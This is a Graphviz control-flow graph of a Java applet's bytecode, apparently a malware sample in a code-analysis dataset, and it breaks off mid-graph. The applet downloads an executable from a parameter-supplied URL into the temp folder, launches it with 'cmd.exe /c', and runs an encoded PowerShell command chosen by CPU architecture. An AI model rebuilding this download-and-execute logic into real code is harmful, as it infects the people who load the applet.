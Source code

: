 digraph "" {
    "r0 := @this: Java"
    "new java.util.Random"
    "r0 := @this: Java"->"new java.util.Random";
    "dup1.r"
    "new java.util.Random"->"dup1.r";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto return"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "specialinvoke <java.util.Random: void <init>()>"
    "dup1.r"->"specialinvoke <java.util.Random: void <init>()>";
    "virtualinvoke <java.util.Random: long nextLong()>"
    "specialinvoke <java.util.Random: void <init>()>"->"virtualinvoke <java.util.Random: long nextLong()>";
    "staticinvoke <java.lang.Math: long abs(long)>"
    "virtualinvoke <java.util.Random: long nextLong()>"->"staticinvoke <java.lang.Math: long abs(long)>";
    "push 36"
    "staticinvoke <java.lang.Math: long abs(long)>"->"push 36";
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"
    "push 36"->"staticinvoke <java.lang.Long: java.lang.String toString(long,int)>";
    "store.r r1"
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"java.io.tmpdir\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r73"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r73";
    "store.r r73"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "pop"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r3"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r3";
    "push \"os.arch\""
    "store.r r3"->"push \"os.arch\"";
    "push \"os.arch\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r4";
    "push \"\""
    "store.r r4"->"push \"\"";
    "store.r r74"
    "push \"\""->"store.r r74";
    "store.r r74"->"push \"\"";
    "store.r r75"
    "push \"\""->"store.r r75";
    "store.r r75"->"push \"\"";
    "store.r $r46"
    "push \"\""->"store.r $r46";
    "store.r $r46"->"push \"\"";
    "store.r $r51"
    "push \"\""->"store.r $r51";
    "push -1"
    "store.r $r51"->"push -1";
    "store.b b17"
    "push -1"->"store.b b17";
    "load.r r3"
    "store.b b17"->"load.r r3";
    "push \"win\""
    "load.r r3"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r3"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r3";
    "load.r r0"
    "iflt load.r r3"->"load.r r0";
    "push \"WINDOWS\""
    "load.r r0"->"push \"WINDOWS\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"WINDOWS\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r74";
    "store.r r74"->"load.r r0";
    "push \"STUFF\""
    "load.r r0"->"push \"STUFF\"";
    "push \"STUFF\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r75";
    "store.r r75"->"load.r r0";
    "push \"64\""
    "load.r r0"->"push \"64\"";
    "push \"64\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r46";
    "store.r $r46"->"load.r r0";
    "push \"86\""
    "load.r r0"->"push \"86\"";
    "push \"86\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r51";
    "push 0"
    "store.r $r51"->"push 0";
    "push 0"->"store.b b17";
    "store.b b17"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r73"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r73";
    "goto load.r r74"
    "store.r r73"->"goto load.r r74";
    "load.r r74"
    "goto load.r r74"->"load.r r74";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r r74"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.r r0"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "ifle load.r r0"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "new java.net.URL"
    "ifle load.r r0"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r74";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r74"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r74";
    "new java.io.BufferedInputStream"
    "store.r r74"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r74";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "load.r r74"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.File"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.File";
    "store.r r6"
    "new java.io.File"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r6"->"load.r r73";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r73"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r r3";
    "store.r r3"->"load.r r3";
    "new java.io.FileOutputStream"
    "load.r r3"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "load.r r6"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "push 2048"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"push 2048";
    "newarray"
    "push 2048"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r1";
    "load.r r1"->"load.r r6";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r6"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "ifgt load.r r3"
    "load.i i0"->"ifgt load.r r3";
    "goto load.r r3"
    "ifgt load.r r3"->"goto load.r r3";
    "goto load.r r3"->"load.r r3";
    "virtualinvoke <java.io.OutputStream: void flush()>"
    "load.r r3"->"virtualinvoke <java.io.OutputStream: void flush()>";
    "virtualinvoke <java.io.OutputStream: void flush()>"->"load.r r3";
    "virtualinvoke <java.io.OutputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r r74";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r74"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r r0";
    "push \"nextPage\""
    "load.r r0"->"push \"nextPage\"";
    "push \"nextPage\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "store.r r3"->"load.r r3";
    "ifnull load.b b17"
    "load.r r3"->"ifnull load.b b17";
    "ifnull load.b b17"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.b b17"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.b b17";
    "ifle load.b b17"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r3";
    "load.r r3"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "load.b b17"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"load.b b17";
    "push 1"
    "load.b b17"->"push 1";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "push 1"->"ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""
    "dup1.r"->"push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\"";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq load.r r75"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq load.r r75";
    "load.r $r46"
    "ifeq load.r r75"->"load.r $r46";
    "load.r $r46"->"virtualinvoke <java.lang.String: int length()>";
    "push 3"
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i load.r r75"
    "push 3"->"ifcmple.i load.r r75";
    "load.r r4"
    "ifcmple.i load.r r75"->"load.r r4";
    "load.r r4"->"push \"86\"";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"
    "push \"86\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifne load.r $r51"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifne load.r $r51";
    "ifne load.r $r51"->"load.r r4";
    "load.r r4"->"push \"64\"";
    "push \"64\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifeq load.r r4"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r4";
    "load.r $r51"
    "ifeq load.r r4"->"load.r $r51";
    "load.r $r51"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r75";
    "new java.lang.ProcessBuilder"
    "ifcmple.i load.r r75"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r46";
    "store.r $r46"->"load.r $r46";
    "load.r $r46"->"push 0";
    "push \"cmd\""
    "push 0"->"push \"cmd\"";
    "arraywrite.r"
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r46";
    "load.r $r46"->"push 1";
    "push \"/c\""
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r46";
    "push 2"
    "load.r $r46"->"push 2";
    "push \"powershell\""
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r46";
    "load.r $r46"->"push 3";
    "push \"-EncodedCommand\""
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r46";
    "push 4"
    "load.r $r46"->"push 4";
    "push 4"->"load.r $r51";
    "load.r $r51"->"arraywrite.r";
    "arraywrite.r"->"load.r $r46";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"
    "load.r $r46"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r46";
    "store.r $r46"->"load.r $r46";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r46";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r46";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "goto load.r r75"
    "virtualinvoke <java.io.InputStream: void close()>"->"goto load.r r75";
    "load.r r75"
    "goto load.r r75"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmpge.i load.r r75"
    "push 3"->"ifcmpge.i load.r r75";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifcmpge.i load.r r75"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \"";
    "push \"cmd.exe /c \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i new java.io.File"
    "push 3"->"ifcmple.i new java.io.File";
    "ifcmple.i new java.io.File"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c \\\"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \\\"\"";
    "push \"cmd.exe /c \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r73";
